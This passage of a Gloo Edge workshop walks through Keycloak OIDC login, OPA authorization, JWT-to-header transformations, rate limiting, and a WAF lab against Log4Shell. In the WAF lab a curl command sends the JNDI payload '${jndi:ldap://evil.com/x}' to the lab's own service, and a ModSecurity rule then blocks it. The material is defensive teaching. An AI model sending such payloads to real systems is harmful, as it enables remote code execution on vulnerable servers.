> **Note:** Another alternative to configuring JWT authentication and authorization is explained here: https://docs.solo.io/gloo-edge/latest/guides/security/auth/jwt/access_control/#secure-the-virtual-service. This, however, requires the client to provide the JWT token (and as well store it properly into an HttpOnly cookie)

The next step is to configure the authentication in the virtual service. For this, you will have to create a Kubernetes Secret that contains the OIDC secret:

```bash
echo $secret
glooctl create secret oauth --namespace gloo-system --name oauth --client-secret ${secret}
```

Then you will create an AuthConfig, which is a Gloo Edge CRD that contains authentication information: 

```bash
kubectl apply -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: gloo-system
spec:
  configs:
  - oauth2:
      oidcAuthorizationCode:
        appUrl: https://httpbin.solo.io
        callbackPath: /callback
        clientId: ${client}
        clientSecretRef:
          name: oauth
          namespace: gloo-system
        issuerUrl: "${KEYCLOAK_URL}/realms/master/"
        scopes:
        - email
        headers:
          idTokenHeader: jwt
EOF
```

Finally, activate the authentication on the virtual service by referencing the AuthConfig:

> Notice that this only applies to httpbin, because it is configured within a **matcher**

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs
  namespace: gloo-system
spec:
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
  virtualHost:
    domains:
      - '*'
    routes:
      - matchers:
        - prefix: /
          headers:
          - name: ":authority"
            value: "echo.solo.io"
        delegateAction:
          selector:
            namespaces:
              - echo
            labels:
              application-owner: team1
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
        options:
          extauth:
            configRef:
              name: oauth
              namespace: gloo-system
EOF
```

If you refresh the web browser for the **httpbin** application, you will be redirected to the authentication challenge. If you have closed the window open a new one:
```
/opt/google/chrome/chrome https://httpbin.solo.io/ 
```

After authenticating with the username: `user1` and password: `password` Gloo will redirect you back to the **httpbin** application.


After authenticating the user we can determine what they are authorized to access. We will investigate that right after we refactor the current resources some bit.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("httpbin requires authentication", () => {
  it('redirect code received', () => helpersHttp.checkURL({ host: "https://httpbin.solo.io/", retCode: 302 }));
})

describe("Authentication is working properly", function() {
  let user = 'user1';
  let password = 'password';
  let keycloak_svc = chaiExec("kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}'").stdout.replaceAll("'", "");
  let keycloak_client_id = chaiExec("kubectl -n gloo-system get authconfig oauth -o jsonpath='{.spec.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl -n gloo-system get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "http://' + keycloak_svc + ':8080/auth/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('httpbin is accessible after authenticating', () => helpersHttp.checkURL({ host: "https://httpbin.solo.io/", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 }));
});
EOF
echo "executing test dist/workshop/build/templates/steps/security-and-authentication/tests/authentication.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

## Refactor time

If we configure one Virtual Service with all the hostnames and all the routing information it will quickly grow to a point that it is untenable.

A very simple rule to adhere to when creating Virtual Services is to create one virtual service per hostname or related group of hostnames that share a common configuration. 
In our instance the `httpbin` and the `echo` service don't share anything in common, so we can break this into two Virtual Services, one for each service.

Start by cleaning up the current virtual service.

```bash
kubectl delete virtualservice vs -n gloo-system
```

Next, create one virtual service to represent each hostname. Start with the echo service.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-echo
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - 'echo.solo.io'
    routes:
      - matchers:
        - prefix: /
        delegateAction:
          selector:
            namespaces:
              - echo
            labels:
              application-owner: team1
EOF
```

And proceed to create the virtual service for httpbin.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
  virtualHost:
    domains:
      - 'httpbin.solo.io'
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      extauth:
        configRef:
          name: oauth
          namespace: gloo-system
EOF
```

The above definitions have a few more changes. We removed the SSL configuration for the `echo` service and we moved the options block in the `vs-httpbin` virtual service from the specific route to the `virtualHost` property, where it applies to all routes of this host.


## Lab 5 - OPA authorization <a name="Lab-5"></a>


After authenticating an end-user request, we can make use of the validated information (claims, profile information, and so on) to authorize his actions. For example, let's allow users to only have READ permissions meanwhile the administrator is allowed to make changes as well.

Gloo Edge uses the [OPA (Open Policy Agent)](https://www.openpolicyagent.org/) and its Rego rules to implement complex access control.

This model allows you to get fine-grained control over the authorization in your applications. Furthermore, this model is well adopted by the Kubernetes community.

The Rego rules are stored as `ConfigMaps`. 
For example with the rego rule below we allow all requests with the HTTP method `GET`, meanwhile, any other HTTP methods require that the JWT token has the `group` claim with the value `"admin"`

Apply the policy to the cluster.

```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: httpbin-access-control
  namespace: gloo-system
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        input.http_request.method == "GET"
    }
    
    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        payload["group"] == "admin"
    }
EOF
```

Next update the `AuthConfig` definition that we created in previous Labs, to make use of the rego rule.

```bash
kubectl apply -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: gloo-system
spec:
  configs:
  - oauth2:
      oidcAuthorizationCode:
        appUrl: https://httpbin.solo.io
        callbackPath: /callback
        clientId: ${client}
        clientSecretRef:
          name: oauth
          namespace: gloo-system
        issuerUrl: "${KEYCLOAK_URL}/realms/master/"
        scopes:
        - email
        headers:
          idTokenHeader: jwt
  - opaAuth:
      modules:
      - name: httpbin-access-control
        namespace: gloo-system
      query: "data.test.allow == true"
EOF
```

Let's see how this impacts the application.
```
/opt/google/chrome/chrome https://httpbin.solo.io/ 
```
After logging in with `user1` / `password` you will be able to view the httpbin UI. As well as send GET requests.

However, when logging in with an administrator account (`admin1` / `password` credentials), you will be able to make POST requests too.

Try that out by opening an incognito window.
```
/opt/google/chrome/chrome https://httpbin.solo.io --incognito
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("user1 who is a regular user", function() {
  let user = 'user1';
  let password = 'password';
  let keycloak_svc = chaiExec("kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}'").stdout.replaceAll("'", "");
  let keycloak_client_id = chaiExec("kubectl -n gloo-system get authconfig oauth -o jsonpath='{.spec.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl -n gloo-system get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "http://' + keycloak_svc + ':8080/auth/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  
  it("is authorized to make GET requests", () => helpersHttp.checkWithMethod({ host: "https://httpbin.solo.io", path: "/get", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], method: "get", retCode: 200 }));
  
  it("is denied to make POST requests", () => helpersHttp.checkWithMethod({ host: "https://httpbin.solo.io", path: "/post", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], method: "post", retCode: 403 }));
});

describe("admin1 who is an administrator", function() {
  let user = 'admin1';
  let password = 'password';
  let keycloak_svc = chaiExec("kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}'").stdout.replaceAll("'", "");
  let keycloak_client_id = chaiExec("kubectl -n gloo-system get authconfig oauth -o jsonpath='{.spec.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl -n gloo-system get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "http://' + keycloak_svc + ':8080/auth/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  
  it("is authorized to make POST requests", () => helpersHttp.checkWithMethod({ host: "https://httpbin.solo.io", path: "/post", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], method: "post", retCode: 200 }));
});
EOF
echo "executing test dist/workshop/build/templates/steps/opa-authorization/tests/authorization.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 6 - Data Transformations - Request transformations <a name="Lab-6"></a>

In this section, you will explore how to transform requests using Gloo Edge. You will frequently encounter requirements that some information has to be added in the request. Frequently, it is not an application concern, such as rate-limiting user requests, validating the response that is sent to the user, returning a good-looking '404' page, and so on.

The example that we will take in the labs that follow is to rate limit our users based on the email, on their subscription, and the organization.

The information of the email and the subscription are present in the JWT tokens. So we need to use the request transformation capabilities of Gloo Edge to extract those claims and mount those into the request.

## Extract JWT claims and store them in HTTP headers

To extract JWT claims and store those in the request headers we got to use the `jwtStaged` property. After authenticating the request this property can be configured to extract the token claims and store those as HTTP Headers. As shown below:

```bash
export KEYCLOAK_MASTER_REALM_URL=http://$(kubectl -n keycloak get svc keycloak -ojsonpath='{.status.loadBalancer.ingress[0].ip}'):8080/auth/realms/master

kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
  virtualHost:
    domains:
      - 'httpbin.solo.io'
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      extauth:
        configRef:
          name: oauth
          namespace: gloo-system
      jwtStaged:
        afterExtAuth:
          providers:
            keycloak:
              issuer: ${KEYCLOAK_MASTER_REALM_URL}
              keepToken: true
              tokenSource:
                headers:
                - header: jwt
              claimsToHeaders:
              - claim: email
                header: x-email
              - claim: subscription
                header: x-subscription
              jwks:
                remote:
                  url: http://keycloak.keycloak.svc:8080/auth/realms/master/protocol/openid-connect/certs
                  upstreamRef:
                    name: keycloak-keycloak-8080
                    namespace: gloo-system
EOF
```

To verify that the headers were added hit the following endpoint:
```
/opt/google/chrome/chrome https://httpbin.solo.io/get
```

Your output too should contain the `X-Email`, `X-Subscription` headers.

```json
{
  "args": {}, 
  "headers": {
    "Host": "httpbin.solo.io", 
    "Jwt": "<REDACTED>", 
      ...
    "X-Email": "user1@acme.com", 
    "X-Subscription": "enterprise", 
    "X-User-Id": "http://172.18.254.176:8080/auth/realms/master;32a4c5b7-275a-4084-bb0f-ac4568c0d24f"
  }, 
  "origin": "10.244.0.8", 
  "url": "https://httpbin.solo.io/get"
}
```

## Staged transformations

We need another piece of information in the header and that is the organization. However, the organization is not stored as a claim in the user token. But on closer look, we find out that we can derive the organization from the email! Basically, `user1@acme.com` is a member of the ACME organization.

Gloo Edge enables us to use request transformers that extract information from the request using regex-es.

For this, we got to use Staged Transformers and the transformation MUST occur after the email claim is extracted from the JWT and stored into the header `X-Email`.

The diagram below shows the order in which filters are applied to a request. 


To extract the organization from the email header, we got to use the "Regular Transformations" as shown in the image. The regular transfomrations are executed after the JWT stage (as shown in the image). 

Putting this together we come up with the virtual service defined below.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
  virtualHost:
    domains:
      - 'httpbin.solo.io'
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      extauth:
        configRef:
          name: oauth
          namespace: gloo-system
# ---------------- Response Transformation ------------------
      stagedTransformations:
        regular:
          requestTransforms:     
          - requestTransformation:
              transformationTemplate:
                extractors:
                  organization:
                    header: 'X-Email'
                    regex: '.*@(.*)$'
                    subgroup: 1
                headers:
                  x-organization:
                    text: '{{ organization }}'
#------------------------------------------------------
      jwtStaged:
        afterExtAuth:
          providers:
            keycloak:
              issuer: ${KEYCLOAK_MASTER_REALM_URL}
              keepToken: true
              tokenSource:
                headers:
                - header: jwt
              claimsToHeaders:
              - claim: email
                header: x-email
              - claim: subscription
                header: x-subscription
              jwks:
                remote:
                  url: http://keycloak.keycloak.svc:8080/auth/realms/master/protocol/openid-connect/certs
                  upstreamRef:
                    name: keycloak-keycloak-8080
                    namespace: gloo-system
EOF

```

Now let's print all the headers by querying the `/get` endpoint of `httpbin`.
```
/opt/google/chrome/chrome https://httpbin.solo.io/get 
```

You should see the following output in your browser.

```
{
  "args": {}, 
  "headers": {
    "Cookie": "id_token=<REDACTED>", 
    "Host": "httpbin.solo.io", 
    "Jwt": "<REDACTED>", 
    "X-Email": "user1@acme.com", 
    "X-Organization": "acme.com", 
    "X-Subscription": "enterprise", 
    "X-User-Id": "http://172.18.254.176:8080/auth/realms/master;e2801a4d-cfc9-479e-9361-7db43d0b4b37"
  }, 
}
```

The output shows that the email, organization, and subscription are all set in the headers, and can be used for rate-limiting. 

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("The request is transformed", function() {
  let user = 'user1';
  let password = 'password';
  let keycloak_svc = chaiExec("kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}'").stdout.replaceAll("'", "");
  let keycloak_client_id = chaiExec("kubectl -n gloo-system get authconfig oauth -o jsonpath='{.spec.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl -n gloo-system get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "http://' + keycloak_svc + ':8080/auth/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  
  it("has added the X-Email header", () => helpersHttp.checkBody({ host: "https://httpbin.solo.io", path: "/get", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: "X-Email", retCode: 200 }));
  
  it("has added the X-Subscription header", () => helpersHttp.checkBody({ host: "https://httpbin.solo.io", path: "/get", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: "X-Subscription", retCode: 200 }));

  it("has added the X-Organization header", () => helpersHttp.checkBody({ host: "https://httpbin.solo.io", path: "/get", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: "X-Organization", retCode: 200 }));
});

EOF
echo "executing test dist/workshop/build/templates/steps/request-transformation/tests/transformations.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 7 - Rate limiting <a name="Lab-7"></a>


In this step, you are going to use rate-limiting to protect or monetize your services.

In our example with `httpbin` we want to achieve the following rate limit configuration:
* Users of organizations with the `enterprise` subscription have a rate limit of 8 requests per second
* Users of organizations with the `free` subscription have a rate limit of 2 requests per second

We define those rate limits using the following RateLimitConfig definition:

```bash
kubectl apply -f - << EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-users
  namespace: gloo-system
spec:
  raw:
    setDescriptors:
    - simpleDescriptors:
      - key: email-key
      - key: organization-key
      - key: subscription-key
        value: free
      rateLimit:
        requestsPerUnit: 2
        unit: MINUTE
    - simpleDescriptors:
      - key: email-key
      - key: organization-key
      - key: subscription-key
        value: enterprise
      rateLimit:
        requestsPerUnit: 8
        unit: MINUTE
    rateLimits:
    - setActions:
      - requestHeaders:
          headerName: x-email
          descriptorKey: email-key
      - requestHeaders:
          headerName: x-organization
          descriptorKey: organization-key
      - requestHeaders:
          headerName: x-subscription
          descriptorKey: subscription-key
EOF
```

Now let's update the virtual service to make use of the new rate limit.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
  virtualHost:
    domains:
      - 'httpbin.solo.io'
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      extauth:
        configRef:
          name: oauth
          namespace: gloo-system
      stagedTransformations:
        regular:
          requestTransforms:     
          - requestTransformation:
              transformationTemplate:
                extractors:
                  organization:
                    header: 'X-Email'
                    regex: '.*@(.*)$'
                    subgroup: 1
                headers:
                  x-organization:
                    text: '{{ organization }}'
      jwtStaged:
        afterExtAuth:
          providers:
            keycloak:
              issuer: ${KEYCLOAK_MASTER_REALM_URL}
              keepToken: true
              tokenSource:
                headers:
                - header: jwt
              claimsToHeaders:
              - claim: email
                header: x-email
              - claim: subscription
                header: x-subscription
              jwks:
                remote:
                  url: http://keycloak.keycloak.svc:8080/auth/realms/master/protocol/openid-connect/certs
                  upstreamRef:
                    name: keycloak-keycloak-8080
                    namespace: gloo-system
# ---------------- Rate limit config ------------------
      rateLimitConfigs:
        refs:
        - name: limit-users
          namespace: gloo-system
#------------------------------------------------------
EOF

```

With the rate limit applied open the browser, login with `user1` and send 8 requests by just refreshing the page:
```
/opt/google/chrome/chrome https://httpbin.solo.io/get
```

You will see that on the 9th request you will see a 429 status code. Which stands for "Too Many Requests". 


## Refactor time!

The VirtualService options can be extracted in their own resource called `VirtualHostOptions`. Usually, used when the same set of options has to be applied across different virtual services.

Start by creating the `VirtualHostOption` that contains the extauth, the transformations, and the rate-limiting configuration.

```bash

kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualHostOption
metadata:
  name: httpbin-options
  namespace: gloo-system
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: gloo-system
    stagedTransformations:
      regular:
        requestTransforms:     
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: '{{ organization }}'
    jwtStaged:
      afterExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_MASTER_REALM_URL}
            keepToken: true
            tokenSource:
              headers:
              - header: jwt
            claimsToHeaders:
            - claim: email
              header: x-email
            - claim: subscription
              header: x-subscription
            jwks:
              remote:
                url: http://keycloak.keycloak.svc:8080/auth/realms/master/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak-keycloak-8080
                  namespace: gloo-system
    rateLimitConfigs:
      refs:
      - name: limit-users
        namespace: gloo-system
EOF

```

Next, update the virtual service to reference the newly created `VirtualHostOption`.

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  sslConfig:
    secretRef:
      name: upstream-tls
      namespace: gloo-system
  virtualHost:
    domains:
      - 'httpbin.solo.io'
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    optionsConfigRefs:
      delegateOptions:
        - name: httpbin-options
          namespace: gloo-system
EOF
```

After the refactoring, if you re-query the `httpbin` service, you will see that everything still works the same: the request is authenticated and authorized, claims are extracted and stored as headers, and rate-limiting applies. 

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("The rate limit for free sub users", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_svc = chaiExec("kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}'").stdout.replaceAll("'", "");
  let keycloak_client_id = chaiExec("kubectl -n gloo-system get authconfig oauth -o jsonpath='{.spec.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl -n gloo-system get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "http://' + keycloak_svc + ':8080/auth/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  
  it("have only 2 requests per minute", () => {
    helpersHttp.checkURL({ host: "https://httpbin.solo.io", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 });
    helpersHttp.checkURL({ host: "https://httpbin.solo.io", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 });
    helpersHttp.checkURL({ host: "https://httpbin.solo.io", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 429 });
  });
});

describe("The rate limit for enterprise sub users", function() {
  let user = 'user1';
  let password = 'password';
  let keycloak_svc = chaiExec("kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}'").stdout.replaceAll("'", "");
  let keycloak_client_id = chaiExec("kubectl -n gloo-system get authconfig oauth -o jsonpath='{.spec.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl -n gloo-system get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "http://' + keycloak_svc + ':8080/auth/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  
  it("have only 8 requests per minute", () => {

    for (let i = 0; i < 8; i++) {
      helpersHttp.checkURL({ host: "https://httpbin.solo.io", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 });
    }
    
    helpersHttp.checkURL({ host: "https://httpbin.solo.io", headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 429 });
  });
});
EOF
echo "executing test dist/workshop/build/templates/steps/rate-limiting/tests/subscription-based-rate-limit.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 8 - Web application firewall <a name="Lab-8"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Edge Enterprise includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Edge we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

## What is the Log4Shell vulnerability? 

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

## Demonstrate a vulnerable service

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

We'll first establish a virtual service that does NOT protect against the exploit, and evaluate it against the httpbin service we installed in earlier exercises.

```bash
cat <<'EOF' | envsubst | kubectl apply -f -
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - "httpbin.solo.io"
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```

We’ll simulate one of these attack vectors by passing our `evil.com` string in a request header to our gateway, and then see that request routed to the target service.

We’ll use curl to simulate the attack, passing in the attack string as the value of the standard `User-Agent` header:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything -i
```

You should see a response that looks similar to the one below. Note that if the system under attack logged out its `User-Agent` header using log4j, then it could potentially be compromised.

```
HTTP/1.1 200 OK
date: Mon, 13 Dec 2021 23:20:22 GMT
content-type: application/json
content-length: 444
server: envoy
access-control-allow-origin: *
access-control-allow-credentials: true
x-envoy-upstream-service-time: 41

{
  "args": {},
  "data": "",
  "files": {},
  "form": {},
  "headers": {
    "Accept": "*/*",
    "Host": "34.138.145.188",
    "User-Agent": "${jndi:ldap://evil.com/x}",    <<< THIS IS BAD!!!
    ...
  }
...
}
```

## Protect the vulnerable service

Now we will protect the httpbin service by applying a modified virtual service to the cluster, with a ModSecurity rule added that blocks input strings containing potential Log4Shell attacks.

```bash
cat <<'EOF' | envsubst | kubectl apply -f -
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - "httpbin.solo.io"
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      waf:
        customInterventionMessage: 'Log4Shell malicious payload'
        ruleSets:
        - ruleStr: |
            SecRuleEngine On
            SecRequestBodyAccess On
            SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
              "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
              "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Let’s examine briefly what this rule does. Line 1 identifies ModSec variables we want to match, entities like the `REQUEST_BODY` and `REQUEST_HEADERS`. These are entities where the contents might be logged by log4j when the request is received, so we want to be sure to protect them.

Line 2 is the condition that is applied to the variables listed in Line 1. In this case, we’re matching against strings that begin with `${jndi`.

Finally, Line 3 defines the action to be taken when the rule is matched. In this case, we are denying the request and passing back a `403 Forbidden` error code.

Now, if you try to make a request containing a header that exploits this vulnerability the request will be rejected before reaching the service.

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything -i
```

Since one of the REQUEST_HEADERS (`User-Agent`) contains a value that matches the regular expression in the ModSec rule, you should see the request rejected with a `403 Forbidden` error, like this:

```
HTTP/1.1 403 Forbidden
content-length: 27
content-type: text/plain
date: Mon, 13 Dec 2021 23:56:13 GMT
server: envoy

Log4Shell malicious payload
```

However, the same curl request with a proper `User-Agent` header would be accepted with no errors.

```bash
curl -H "User-Agent: curl/7.74.0" http://httpbin.solo.io/anything -i
```

Here's a snippet of the expected response:

```
HTTP/1.1 200 OK
server: envoy
date: Mon, 13 Dec 2021 23:59:34 GMT
content-type: application/json
content-length: 383
...
{
  "args": {}, 
  ...
  "headers": {
    ...
    "User-Agent": "curl/7.74.0", 
    ...
  }, 
  ...
  "url": "http://httpbin.kubernetes.rmtxxkufojcx.instruqt.io/anything"
}
```

For more information on the log4j vulnerability, check our blog "[Block Log4Shell attacks with Gloo Edge](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/)".

